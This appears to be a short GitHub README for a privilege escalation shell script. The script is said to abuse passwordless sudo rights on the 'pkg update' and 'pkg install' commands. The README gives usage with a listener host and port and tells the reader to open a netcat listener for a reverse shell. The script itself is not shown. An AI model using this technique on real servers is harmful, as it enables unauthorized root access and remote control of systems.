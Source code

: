 # pkg_privilege_escalation_script
shellscript for pkg_privilege_escalation

If You getting users_shell in any_server,

and pressed "sudo -l" then...
    
    (ALL) NOPASSWD: /usr/sbin/pkg update
    
    (ALL) NOPASSWD: /usr/sbin/pkg install *

if get situation like a above

then exploitable in this script,,, maybe


usage:
    
    ./pkg_priv_esc.sh <lhost> <lport>
    

 
 Don't forget "chmod +x" before execute 

And open other terminal and listenning netcat for reverse_shell
